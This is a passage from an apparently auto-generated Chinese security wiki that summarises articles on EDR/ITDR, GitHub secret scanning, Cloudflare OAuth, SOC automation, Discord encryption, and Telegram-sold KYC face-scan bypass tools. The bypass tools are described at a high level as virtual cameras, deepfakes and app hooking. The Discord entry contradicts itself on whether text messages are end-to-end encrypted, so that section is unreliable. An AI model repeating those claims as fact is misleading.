**4. 在安全意识培训中加入浏览器扩展专项模块**

传统的钓鱼/社会工程培训往往忽略扩展攻击面。LLMReaper 类型的 PoC 可直接用于演示，让员工亲眼看到"安装一个看起来无害的扩展后，对话如何在后台被实时窃取"。这类可视化演示比文字警告更能建立行为改变。

**5. 使用 [agent-security-threat-models](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-threat-models.md.md) 框架评估 AI 工作流中的数据流风险**

在引入 AI 工具到业务流程前，应系统性识别数据流经的所有节点（包括浏览器扩展、第三方脚本、API 端点），对照 [Agent Security Threat Models](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-threat-models.md.md) 中的攻击向量矩阵进行威胁建模。这有助于发现单点防御无法覆盖的盲区。

---

*本条目由 LLMReaper 研究论文深度解析生成，2026-06-03*

---

## Ch12.081 How Unified EDR and ITDR Stop Attacks Before They Spread

> 📊 Level ⭐⭐ | 5.5KB | `entities/huntress-edr-itdr.md`

## 核心要点
- Cybersecurity 相关技术分析
- 内容来源：huntress
## 相关实体
- [Huntress Edr Itdr Unified Detection](https://github.com/QianJinGuo/wiki/blob/main/entities/huntress-edr-itdr-unified-detection.md)
- [Llm Raiders Private Ai Server](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-private-ai-server.md)
- [How Claude Code Works In Large Codebases Best Practices And Where To Start](https://github.com/QianJinGuo/wiki/blob/main/entities/how-claude-code-works-in-large-codebases-best-practices-and-where-to-start.md)
- [Llm Raiders And How To Repel Them](https://github.com/QianJinGuo/wiki/blob/main/entities/llm-raiders-and-how-to-repel-them.md)
- [How To Create Websites With Great Ux Designs](https://github.com/QianJinGuo/wiki/blob/main/entities/how-to-create-websites-with-great-ux-designs.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/huntress-edr-itdr.md)

## 深度分析
- **EDR 与 ITDR 的本质区别与协同必要性**：EDR（Endpoint Detection and Response）聚焦于端点层面的恶意行为监控——进程注入、文件写入、注册表修改等本地系统活动；而 ITDR（Identity Threat Detection and Response）专注于身份层——M365/Entra ID 中的异常登录、OAuth token 滥用、邮箱规则篡改等云身份行为。两者监控的是同一攻击链的不同阶段：EDR 看到攻击的「落地」，ITDR 看到攻击的「变现」。传统安全体系将二者割裂处理，导致响应滞后于攻击的横向移动。
- **Huntress 托管 EDR 的差异化定位**：不同于 CrowdStrike、SentinelOne 等纯技术平台的 OEM 贴牌模式，Huntress 采用「平台+托管安全运营」的双层架构。其 EDR 不仅仅是传感器和告警引擎，还捆绑 24/7 SOC 人工分析——由真实分析师验证每个检测、撰写事件报告、提供处置建议。这种「人机协同」模式对于缺乏独立安全团队的 SMB（员工规模 50-500人）尤为重要：买 EDR 工具≠有 EDR 能力，Huntress 弥合了这个能力鸿沟。
- **检测理念：从「看见更多」到「更快止血」**：传统 EDR 产品的核心 KPI 是检测率（检出率、MITRE ATT&CK 覆盖率）；而 Huntress 的设计哲学强调 MTTR（Mean Time To Respond）——从检测到有效响应的耗时。其 Attack Disruption Engine 能在检测到威胁后自动执行中断动作（进程终止、网络隔离、凭证吊销），将多步手动响应压缩为单次自动化操作。事件报告直接包含身份层面的处置建议（禁用账号、撤销会话），而非仅停留在「发现恶意软件」这一层级。
- **SMB 安全威胁格局：Infostealer 是核心痛点**：文章指出，Infostealer（信息窃取木马）已成为当前中小企业面临的最普遍攻击向量——不依赖 0day，不使用复杂社工技巧，仅通过钓鱼或恶意下载落地，然后自动收割浏览器存储凭证、Session Token、Cookie 等身份凭据。关键危害在于：从感染到凭据被滥用的时间窗口极短（有时仅几分钟），而传统 EDR 检测到恶意软件后，安全团队还需单独调查「哪些账号暴露」，这个时间差正是攻击者的利用窗口。
- **核心技术壁垒：绕过日志延迟的端点身份关联**：Huntress EDR Agent 在端点持续采集身份上下文（哪些用户登录过、哪些会话处于活跃状态），当 EDR 检测到攻击行为时，平台直接关联该端点与云身份，无需等待 Microsoft 365 Entra ID 的审计日志生成和上报。这意味着 Huntress 往往在 Microsoft 自己的日志系统「看到」攻击活动之前，就已经完成身份暴露的判定和响应——这是其相对于 XDR 平台（依赖数据管道延迟）和纯 ITDR 工具（依赖日志存在）的核心优势。

## 实践启示
- **安全团队选型时优先考虑托管 EDR 的场景**：当组织没有 24/7 安全运营能力（无专职 SOC 团队、无 on-call 安全工程师）时，托管 EDR（如 Huntress）的「检测+验证+响应报告」一体化方案比自建 EDR 能力更具性价比。自建 EDR 意味着：买平台、搭规则、调阈值、雇分析师——总成本远高于托管服务，且很可能在告警疲劳中错失真实事件。
- **何时选择托管 EDR vs. 自管理 EDR**：托管 EDR 适合「安全是成本中心而非核心竞争力」的组织（SMB、区域性医疗机构、教育机构、政府分支），其价值在于把安全运营外包给专业团队；自管理 EDR（加上 XDR/SIEM）适合已有成熟安全团队的中大型企业，其需求是深度定制化规则和跨数据源关联能力。Huntress 的定位明确在 SMB 段，其定价和功能设计均围绕「非安全专业用户能看懂事件报告」这一目标。
- **评估 EDR/ITDR 方案时关注「相关性关联」而非「独立告警」**：市面上大多数 EDR 和 ITDR 是独立产品，整合依赖客户自行配置 API 串联。选型时应重点考察：端点检测事件是否自动携带身份上下文？事件报告是否直接提供 ITDR 处置动作（禁用账号、撤销会话）？响应链路是否需要人工切换工具？这些指标决定了从「检测」到「止血」的实际耗时。
- **SMB 安全栈建议：EDR + ITDR 联动作为基础防线**：对于 SMB，建议安全基础架构按以下优先级部署：（1）托管 EDR 实现端点检测与自动响应；（2）托管 ITDR 覆盖 M365/Google Workspace 身份层，监控异常登录和 OAuth 滥用；（3）邮件安全（钓鱼防护 + BEC 检测）；（4）最后才是 SIEM（日志聚合，用于合规和溯源）。Infostealer 类攻击的防御关键是第（1）和第（2）项联动——在窃取凭证被滥用之前同时封锁端点和身份两个维度。

---

## Ch12.082 GitHub Secret Scanning: AI/ML 驱动的大规模误报降低

> 📊 Level ⭐⭐ | 5.5KB | `entities/github-secret-scanning-ai-ml-false-positive-reduction.md`

# GitHub Secret Scanning: AI/ML 驱动的大规模误报降低

> -> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/github-secret-scanning-ai-ml-false-positive-reduction.md)

## 摘要

GitHub 与 Microsoft Security & AI Agents Offense 团队合作，在 secret scanning 系统中引入 LLM 驱动的上下文感知验证机制，将误报率降低 75.76%（目标 65%）。核心创新在于"更好的上下文"而非"更多的上下文"——通过提取代码中的使用信号（变量赋值、API 调用路径、认证头传递等）来判断疑似 secret 是否真正被用作凭证，而非仅依赖模式匹配。

## 核心要点

- **误报是 secret scanning 的核心痛点**：过多误报导致告警疲劳，开发者忽略所有告警（包括真实泄露），这比漏报更危险
- **两级架构**：规则引擎检测潜在 secret（高召回率）→ ML 模型验证是否为真实泄露（高精确率）
- **"更好的上下文"策略**：不传入整个文件或仓库，而是提取高信号信息（变量赋值 → API 请求 → 认证头 → 数据库客户端 → 云 SDK 调用），判断值是否真正被用作凭证
- **结果超越目标**：目标误报降低 65%，实际达到 75.76%，基于数百个客户确认的误报警报
- **基于 Agentic Secret Finder**：来自 Microsoft 的更广泛检测和验证系统，在上下文中理解潜在 secret

## 深度分析

### 信噪比决定安全工具的有效性

Secret scanning 的核心挑战不是检测能力，而是信噪比。在 GitHub 的规模下（数十亿次 push、数百万仓库、数千万开发者），即使是微小的误报率也会产生海量噪声告警。开发者面对过多误报时会产生"告警疲劳"——逐渐忽略所有告警，包括真实泄露。这比漏报更危险：漏报只是少了保护，而误报疲劳会让所有保护失效。

### 上下文感知验证的技术实现

GitHub 的创新不在于"分析更多代码"，而在于"分析更精准的信号"。系统提取的关键上下文包括：

1. **值的赋值方式**：是否被赋给变量名包含 "key"、"token"、"secret" 的标识符
2. **使用路径**：是否被传入 API 请求、认证头、数据库客户端或云 SDK 调用
3. **格式特征**：长度、字符分布、编码模式等结构化特征

这种"聚焦上下文"的方法既保持了高准确率，又控制了延迟和成本——大部分误报可以通过单文件级别的上下文解决，无需深度仓库分析。

### 两级架构的工程设计

GitHub 采用的是典型的"广度+深度"两级安全架构：

| 层级 | 组件 | 目标 | 技术 |
|------|------|------|------|
| 第一级 | 规则引擎 + AI 检测 | 高召回率，不漏报 | 模式匹配 + 通用 secret 检测 |
| 第二级 | LLM 上下文验证 | 高精确率，减少噪声 | 使用信号提取 + 上下文推理 |

这种架构的关键优势是**向后兼容**：检测逻辑不变，仅在验证环节增强，不影响上游覆盖率。

### 与传统方法的对比

传统 secret scanning 仅依赖正则表达式和模式匹配（"这个值看起来像 API key"），无法区分真正的凭证和格式相似的随机字符串（UUID、哈希值、测试数据）。LLM 验证通过理解代码语义来弥补这一缺陷——它不仅看值的格式，还看值在代码中的"角色"。

## 差异化对比

| 维度 | GitHub Secret Scanning | bagel Fleet Scanning |
|------|----------------------|---------------------|
| 扫描位置 | 仓库级（push/PR 时） | 开发工作站级（file system daemon） |
| 检测对象 | Git 历史中的 secret | 本地文件系统中的 secret |
| AI/ML 应用 | 误报降低（二次验证） | IDE plugin 风险检测 |
| 规模 | GitHub 全平台级 | 单组织 fleet 级 |

## 实践启示

- **DevSecOps 团队**：评估现有 secret scanning 的误报率；如果误报率 > 50%，开发者很可能已经开始忽略告警
- **安全架构师**：两级架构（规则引擎 + ML 验证）是安全检测的通用模式，可应用于 SAST、DAST、依赖扫描等多个领域
- **ML 工程师**：安全领域的 ML 应用核心挑战是标注数据——真实 secret 数据敏感度极高，标注过程需要严格安全控制；可参考 GitHub 的"使用信号"方法，基于行为特征而非内容本身做分类
- **平台团队**：在大规模系统中，"更好的上下文"比"更多的上下文"更重要——这适用于日志分析、异常检测、告警降噪等多个场景
- **合规团队**：了解 secret scanning 的误报率对 SOC 2、ISO 27001 等合规审计中的"安全控制有效性"评估有直接影响

## 相关实体

- [bagel Fleet 级 Secret Scanning](https://github.com/QianJinGuo/wiki/blob/main/entities/bagel-fleet-secret-scanning-dev-workstation-2026.md)
- [Claude Code Security Incident](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-code-tool-call-security-incident-gitignore-redis-anthropic-apology-2026-06-17.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/github-secret-scanning-ai-ml-false-positive-reduction.md)

---

## Ch12.083 Unlocking the Cloudflare app ecosystem with OAuth for all

> 📊 Level ⭐⭐ | 5.4KB | `entities/cloudflare-oauth-for-all.md`

# Unlocking the Cloudflare app ecosystem with OAuth for all

> **Background**：Cloudflare 官方博客，宣布为所有开发者提供 OAuth 授权能力，使第三方应用能安全地访问 Cloudflare 平台资源。这是 Cloudflare 开发者平台战略的关键一步，尤其对 Agentic 工具的委托访问具有重要意义。

## 摘要

Cloudflare 服务着全球 20% 的网站，其 API 生态长期以来依赖手动准入的少量合作伙伴 OAuth 集成（如 Wrangler、PlanetScale）。此次"OAuth for All"发布将 OAuth 授权能力开放给所有开发者，支持自管理 OAuth 客户端创建。背后的技术升级涉及从 Hydra 1.x 到 2.x 的大规模迁移，采用了蓝绿部署策略和队列化撤销机制来确保零停机升级。

## 核心要点

### 从受限到开放

- **之前**：仅少量手动准入的合作伙伴可通过 OAuth 访问 Cloudflare API
- **之后**：所有开发者均可创建自管理 OAuth 客户端
- **动机**：开发者平台增长 + Agentic 工具对委托访问的需求推动了开放

### 自管理 OAuth 能力

开发者现在可以提供标准 OAuth 流程：
- **用户直接授权**：客户授予有范围的访问权限
- **细粒度权限控制**：精确控制第三方应用可执行的操作
- **清晰的同意体验**：明确展示请求访问的应用及其权限
- **便捷的撤销机制**：通过 Dashboard 随时控制哪些应用有权访问数据
- **防钓鱼保护**：应用所有权更可见，防止 OAuth 钓鱼攻击

## 技术实现深度分析

### OAuth 引擎升级：Hydra 1.x → 2.x

Cloudflare 使用开源 OAuth 引擎 [Hydra](https://github.com/ory/hydra) 驱动 OAuth 系统。随着平台增长和 Agentic 工作流普及，需要进行重大升级。团队采取了**两阶段顺序升级**策略：

**阶段一：升级到 Hydra 1.x 最新版**

面临的核心挑战：
1. 数据库 schema 迁移会在关键表上创建排他锁，阻塞活跃用户的 OAuth 操作
2. 添加新列和移动列到新表导致兼容性问题
3. 旧版 SDK 执行 `SELECT *` 操作，与 schema 变更产生反序列化冲突

解决方案：
- 重写 SQL 迁移使用 `CREATE INDEX CONCURRENTLY` 避免锁表
- 构建自定义 Hydra 版本，显式选择列而非 `SELECT *`

**阶段二：升级到 Hydra 2.x**

评估了三种方案：
1. **原地升级**：不可行——schema 变更过大
2. **蓝绿部署（禁用写入）**：可用但在升级期间用户无法新授权或撤销
3. **蓝绿部署（保持写入）**（最终选择）：允许部分写入丢失，但保障关键操作

### 蓝绿部署的关键设计

为在升级期间保持系统可用，团队设计了精巧的机制：

**减少 Token 写入**：通过延长 Token 过期时间到数小时，减少升级窗口内的新 Token 请求量。

**队列化撤销保障**：使用 [Cloudflare Queues](https://developers.cloudflare.com/queues/) 构建队列系统——撤销事件被写入队列，在切换到绿色版本后重放所有撤销事件。这是关键设计，否则用户已撤销的应用访问可能在升级后被意外恢复。

**Refresh Token 合并**：升级到 1.x 后发现 Hydra 的严格 refresh token 失效行为（一个复用的 refresh token 会使整个 token 链失效）影响 Wrangler 和 MCP 客户端。通过在 Worker 层添加 refresh token 合并行为——短暂缓存请求以检测重试并短路响应。Hydra 2.x 的可配置"refresh token grace period"从根本上解决了此问题。

## 对 Agent 生态的意义

OAuth 标准化对 AI Agent 生态具有深远影响：

1. **Agent 委托访问**：Agent 可以通过标准 OAuth 流程安全地访问 Cloudflare 资源，无需共享长期 API token
2. **用户主权**：用户可以精确控制 Agent 的权限范围，随时撤销访问
3. **操作可审计**：所有 Agent 操作通过 OAuth token 可追溯
4. **生态催化**：标准化授权降低了构建 Cloudflare 集成工具的门槛，促进工具链繁荣

对于构建 Cloudflare 管理 Agent 的开发者来说，OAuth for All 意味着不再需要为每个用户分发 API token，而是通过标准 OAuth 流程实现安全的委托访问——这是 Agentic 工具走向生产级的关键基础设施。

## 实践启示

1. **SaaS 集成开发**：现在可以构建基于 OAuth 的 Cloudflare 集成，替代 API token 方案
2. **内部开发平台**：企业可构建内部工具通过 OAuth 访问 Cloudflare，统一权限管理
3. **Agentic 工具链**：AI Agent 可通过 OAuth 获取受限的 Cloudflare API 访问，支持自动化运维
4. **迁移注意**：使用 Wrangler 或 MCP 客户端的团队应关注 refresh token 行为变化

## 相关实体

- [Cloudflare Temporary Accounts Ai Agents](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-temporary-accounts-ai-agents.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/cloudflare-oauth-for-all.md)

---

## Ch12.084 Cyberscammers are bypassing banks' security with illicit tools sold on Telegram

> 📊 Level ⭐⭐ | 5.4KB | `entities/Cyberscammers-are-bypassing-banks-security-with-illicit-tool.md`

# Cyberscammers are bypassing banks' security with illicit tools sold on Telegram

## 核心要点

- 来源: MIT Technology Review
- 技术领域: 网络安全、金融欺诈

## 内容摘要

MIT Technology Review 在为期两个月的调查中发现了 22 个中越英语言 Telegram 公开频道，这些频道售卖用于绕过"了解你的客户"（KYC）面部扫描的非法工具包和被盗生物特征数据。这些工具使诈骗者能够开设 mule 账户并洗钱，主要针对 Binance、西班牙 BBVA、英国 Revolut 等主流金融机构。攻击手法利用虚拟摄像头（VCam）替换真实视频流，用静态图片或 deepfake 视频骗过活体检测。2024 年虚拟摄像头攻击较 2023 年增长超过 25 倍，"复杂"欺诈尝试几乎翻了三倍。

## 相关实体
- [Cyberscammers Bypassing Bank Telegram](https://github.com/QianJinGuo/wiki/blob/main/entities/cyberscammers-bypassing-bank-telegram.md)
- [Mozilla Warns Uk Breaking Vpns Will Not Magically Fix Britain S Age Check Mess 1](https://github.com/QianJinGuo/wiki/blob/main/entities/mozilla-warns-uk-breaking-vpns-will-not-magically-fix-britain-s-age-check-mess-1.md)
- [Weve Been Here Before Ai Vulnerability Research](https://github.com/QianJinGuo/wiki/blob/main/entities/weve-been-here-before-ai-vulnerability-research.md)
- [Ai Tool Poisoning Exposes A Major Flaw In Enterprise Agent Security](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security.md)
- [Rigged Game Scarcruft Compromises Gaming Platform Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)
## 相关主题

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/Cyberscammers-are-bypassing-banks-security-with-illicit-tool.md)

## 深度分析

**1. 虚拟摄像头（VCam）攻击已成为 KYC 绕过的核心手段** 

攻击者通过虚拟摄像头替换真实视频流，使用静态图片或 deepfake 视频骗过活体检测。MIT Technology Review 调查发现 22 个中越英语言 Telegram 频道公开售卖此类工具，服务对象涵盖 Binance、西班牙 BBVA 等主流金融机构。这种攻击模式已经从技术概念演变为可规模化部署的地下产业。

**2. KYC 绕过正在成为 pig-butchering 骗局的基础设施** 

Chainalysis 数据显示 2025 年加密货币诈骗损失达 170 亿美元，较 2024 年增长 31%。联合国毒品犯罪问题办公室警告亚洲诈骗集团在非洲和太平洋地区的扩张使其"快速规模化盈利"。KYC 绕过工具使诈骗集团能够快速开设 mule 账户，将赃款转入银行后立即通过 Tether 等稳定币洗白，整个过程可在秒级完成。

**3. 金融机构面临"看不见的失败"困境** 

Sumsub 反欺诈产品负责人 Artem Popov 指出："重要的是我们看不到的部分"——存在大量未被检测到的攻击。虚拟摄像头攻击在 2024 年全球频率较 2023 年增长超过 25 倍，"复杂"或"多步"欺诈尝试（包括 VCam 绕过）在其客户群中几乎翻了三倍。金融机构往往在攻击发生很久后才意识到被突破。

**4. 攻防博弈正在从应用层向操作系统层迁移** 

Talsec CEO Sergiy Yakymchuk 介绍，早期仅需反编译银行 APP 即可完成绕过，现在需要 jailbreak 手机或向金融 APP 注入"挂钩框架"代码触发虚拟摄像头。攻击者同时 compromise 手机本身和金融机构 APP 代码，再向虚拟摄像头输入混合的盗窃生物特征和 deepfake。这种趋势意味着单一应用层防护已不足够，需要系统级防御思路。

**5. 监管追赶速度滞后于攻击产业化速度** 

泰国已立法增强 KYC 监控、限制每日交易金额、授权监管机构暂停账户；美国 FinCEN 于 2024 年底发布警告鼓励平台追踪更广泛的交易模式。但研究者 Ngo 认为："新安全或报告要求会让绕过变得更难，但不会阻止他们——这只是时间问题。"

## 实践启示

- **实施设备完整性检测**：在活体检测过程中增加设备 jailbreak/root 检测、模拟器识别和运行时完整性验证，防止攻击者在手机层面植入虚拟摄像头驱动 

- **行为生物特征识别**：除静态面部匹配外，增加动态行为分析——眨眼频率、头部运动节奏、微表情等活体特征，结合设备交互行为模式进行多维度验证 

- **交易图谱分析**：即使 KYC 被绕过，诈骗资金在账户间快速转移时仍会留下异常交易模式。FINCEN 建议平台追踪广泛交易特征而非单一身份验证节点 

- **跨平台威胁情报共享**：加入金融机构安全联盟，共享 Telegram 渠道发现的绕过工具特征码和攻击模式，因单家机构难以全面监控地下市场 

- **稳定币交易监控**：Tether 已成为赃款洗白首选工具，金融机构应建立加密货币出金业务的专项监控规则，对短期内大额稳定币转换进行预警 

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/Cyberscammers-are-bypassing-banks-security-with-illicit-tool.md)

---

## Ch12.085 Guide to Security Operations at Machine Speed

> 📊 Level ⭐⭐ | 5.4KB | `entities/arctic-wolf-security-operations-machine-speed.md`

## 核心要点
- AI/机器学习正在变革安全运营（SOC），实现机器级速度的威胁检测与响应
- 成熟度评估框架：评估组织安全运营成熟度的关键维度
- 自动化在安全运营中的应用场景：检测工程、事件响应、威胁情报
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arctic-wolf-security-operations-machine-speed.md)

## 深度分析
**背景事件：AI 威胁速度的阶跃变化。** 2026年4月，Anthropic 发布 Claude Mythos——一个能够自主发现数千个零日漏洞、生成可利用漏洞代码、以机器级速度编排多阶段攻击的 AI 模型。这一事件成为安全运营的分水岭：威胁从"人类级速度"跃升到"AI级速度"，而传统 SOC 的 alert queue、tiered analyst teams、季度补丁周期等机制，都是为一个已经不存在的时代设计的。
**核心论点：安全运营必须等速于威胁。** Arctic Wolf 的指南指出，AI 已经压缩了漏洞发现到漏洞利用之间的时间窗口。传统的"检测—分诊—调查—响应"人工链路，其每个环节都存在人类反应速度的上限。当攻击者可以用 AI 在分钟内完成侦察、武器化、利用完整链路时，"下一班分析师处理"等于没有防御。 ^[arctic-wolf-security-operations-machine-speed]
**成熟度自评框架的7个维度。** 指南提供了函数级自评方法：alert triage（机器速 vs 队列等待）、investigation（并行跨源关联 vs 串行人工分析）、response（自动化隔离 vs 人工审批）、threat hunting（持续主动搜索 vs 季度巡检）、threat intelligence（实时应用 vs 周报摘要）、detection engineering（小时级发布 vs 下一 Sprint）、environmental context（环境基线感知 vs 通用规则）。每个维度回答同一个问题：该功能现在是机器速还是人速？ ^[arctic-wolf-security-operations-machine-speed]
**"我安全吗？"这个问题变了。** 过去问的是"安全项目成熟度如何"；现在问的是"我能否跟上 AI 威胁的速度"。Arctic Wolf 特别指出，跳过基线评估的组织会购买"同一套运营模式，只是工具更贵"。没有函数级基线，安全负责人拿不出具体数据在董事会回答"我们能否应对下一个 Mythos 级事件"。 ^[arctic-wolf-security-operations-machine-speed]
**关键洞察：.board 不想看 maturity score，.board 想知道能不能跟上下一个头条新闻。** 这个框架把抽象的"安全成熟度"翻译成了具体的"速度对比"，让技术评估直接对接业务风险话语权。 ^[arctic-wolf-security-operations-machine-speed]

## 实践启示
1. **立即做函数级安全速度评估。** 用指南的7个维度逐项打分，标记为"机器速"或"人速"，生成一页"我们安全吗？"简报，用于下一次董事会或管理层汇报。Human-speed 函数就是 threat environment 会最先利用的薄弱点。 ^[arctic-wolf-security-operations-machine-speed]
2. **优先对 Alert Triage 和 Detection Engineering 提速。** 这两个环节的改进投入产出比最高：alert triage 决定分析师的时间分配质量，detection engineering 决定新威胁出现到你实际能检测之间的时间窗口。两个都是机器速改造后效果最立竿见影的环节。 ^[arctic-wolf-security-operations-machine-speed]
3. **Threat intelligence 必须从"周报摘要"改为"实时应用"。** 当威胁情报还在走周报路径时，利用该情报的攻击已经完成。至少要将关键 IoC 接入 SIEM/XDR 的实时规则引擎，而不是停留在人工阅读层面。 ^[arctic-wolf-security-operations-machine-speed]
4. **用 AI 对抗 AI。** 指南的核心逻辑是：AI 引发的问题只能用 AI 来解决人类速度不够。自研或采购 AI-native 的 SOC 工具时，评估标准应该是"该工具能在几分钟内完成从检测到响应闭环"，而不是"该工具能否生成更美观的告警面板"。 ^[arctic-wolf-security-operations-machine-speed]
5. **不要在没有基线的情况下购买新平台。** 先完成函数级评估，再决定平台采购。否则只是用更贵的工具重复已有的运营模式，是最常见的安全投资浪费。 ^[arctic-wolf-security-operations-machine-speed]

## 相关实体
- [The It And Security Field Guide To Ai Adoption Tines](https://github.com/QianJinGuo/wiki/blob/main/entities/the-it-and-security-field-guide-to-ai-adoption-tines.md)
- [Http2 Hpack Bomb Codex Ai Discovery 32Gb Dos](https://github.com/QianJinGuo/wiki/blob/main/entities/http2-hpack-bomb-codex-ai-discovery-32gb-dos.md)
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.086 Discord 全平台端到端加密

> 📊 Level ⭐⭐ | 5.4KB | `entities/discord-e2e-encryption.md`

## 核心要点

- Discord 宣布全平台（语音、视频、文字消息）端到端加密（E2EE）
- 使用 Signal 协议的双棘轮算法（Double Ratchet）实现前向保密
- 密钥交换使用 X3DH（Extended Triple Diffie-Hellman）协议
- 支持安全 multi-party calls（通话）

## 技术实现

Discord 的 E2EE 基于 Signal 协议的双棘轮机制：

- **X3DH** 用于初始密钥交换，支持预密钥（Pre-key）包
- **Double Ratchet** 实现每次消息使用新密钥（前向保密）
- **Sealed Sender** 隐藏消息发送者身份

## 安全特性

- 文字消息、语音通话、视频通话全部加密
- Discord 服务器只存储密文，无法解密内容
- 支持安全 multi-party 群组通话

## 相关实体
- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)
- [Ath Agent Trust Handshake Protocol](https://github.com/QianJinGuo/wiki/blob/main/entities/ath-agent-trust-handshake-protocol.md)
- [Checkmarx Jenkins Plugin Compromised In New Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/discord-e2e-encryption.md)

## 深度分析

Discord 的 E2EE 部署历程是一个跨越多年的系统性工程。2023 年 8 月启动实验，2024 年 9 月发布 DAVE（Discord Audio and Video Encryption）协议，2025 年扩展到所有平台，2026 年 3 月完成全面迁移 。这个时间线揭示了一个重要事实：在复杂的多平台产品上实现 E2EE 不是一次性的功能发布，而是一个需要数年持续投入的基础设施改造工程。Discord 的 VP of Core Technology Mark Smith 在博客中坦言"one we knew would take years to deliver on" 。

Discord E2EE 最显著的技术挑战来自其平台多样性。Mark Smith 在博客中描述了这个独特性："A single Discord call can have someone on a laptop, someone on their phone, someone on a PlayStation, someone on an Xbox, and someone in a web browser, all in the same conversation at the same time" 。每个平台都有不同的硬件能力、协议栈和性能约束，构建一个能无缝跨所有这些表面的 E2EE 协议，其复杂度远超单一平台实现 。DAVE 协议被描述为"likely one of the internet's most platform-diverse E2EE voice and video implementations" 。

Discord 在推进过程中展示了教科书级别的安全开发生态建设。DAVE 协议是开放的，实现是开源的 ，并由 Trail of Bits 进行了外部审计 ，同时 Discord 扩大了 bug bounty 范围覆盖该协议 。这种"开放+审计+bounty"的三位一体模式，是任何希望建立安全可信的 E2EE 系统的组织都应该效仿的实践。

一个具体案例展示了 Discord 团队对质量的坚持：当把 DAVE 移植到 Web 浏览器时，团队发现 Firefox 上游存在一个影响协议正常运行的 bug 。他们没有选择绕过或降级 Firefox 支持，而是直接深入 Firefox 代码库，找到根本原因并帮助合并了补丁 。Mark Smith 总结这一原则："doing it right meant going wherever the work needed to go, even when that extended well beyond our own codebase" 。

关于文字消息，Discord 明确表示目前没有计划将 E2EE 扩展到文本 。这是因为许多 Discord 上的功能构建时假设文本不是端到端加密的，重新设计这些功能以支持加密是一个"meaningful engineering challenge" 。这提醒我们，E2EE 的技术实现只是挑战的一部分，产品架构的既有约束同样会影响决策。

## 实践启示

1. **E2EE 是长期基础设施投资而非功能特性**：Discord 的案例表明，多平台 E2EE 的交付需要数年时间，需要组织在工程资源上进行持续承诺。团队应将其视为产品安全的基础设施升级，而不是一个 sprint 可以完成的特性 。

2. **开放协议+开源实现+外部审计是建立信任的标准范式**：如果要构建涉及用户隐私敏感数据的系统，DAVE 的三位一体模式（开放协议规格、GitHub 开源代码库、Trail of Bits 审计）提供了如何向用户和社区证明系统安全性的参考模板 。

3. **跨平台兼容性需要"超出自己代码库"的决心**：Discord 团队在 Firefox 上游代码中修复 bug 的案例说明，多平台加密的复杂性不仅在于实现自己的协议，还在于需要帮助修复上游依赖中的问题。预算和工程周期中应包含这部分隐性工作 。

4. **E2EE 的用户体验应该是透明的**：Discord 的一个关键目标是"E2EE happens transparently. The experience hasn't changed, the protection has" 。这提示产品团队：安全措施不应成为用户负担，加密的实现细节应对用户无感。

5. **遗留产品架构是 E2EE 扩展的隐性障碍**：Discord 选择不为文本消息添加 E2EE 并非技术不可行，而是因为许多功能构建在"文本未加密"的假设之上 。这提示我们：在现有产品上引入 E2EE 需要全面审视依赖这一假设的所有功能，这个工作量可能比实现加密本身更大。

---

## Ch12.087 A 0-click exploit chain for the Pixel 10: When a Door Closes, a Window Opens

> 📊 Level ⭐⭐ | 5.3KB | `entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens-1.md`

## 核心要点
## 相关实体
- [A 0 Click Exploit Chain For The Pixel 10 When A Door Closes A Window Opens](https://github.com/QianJinGuo/wiki/blob/main/entities/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens.md)
- [Pixel 10 Zero Click Exploit Chain](https://github.com/QianJinGuo/wiki/blob/main/entities/pixel-10-zero-click-exploit-chain.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Platformer Ai Job Loss Levie](https://github.com/QianJinGuo/wiki/blob/main/entities/platformer-ai-job-loss-levie.md)
- [Thehackernews Fake Openai Privacy Filter](https://github.com/QianJinGuo/wiki/blob/main/entities/thehackernews-fake-openai-privacy-filter.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/a-0-click-exploit-chain-for-the-pixel-10-when-a-door-closes-a-window-opens-1.md)

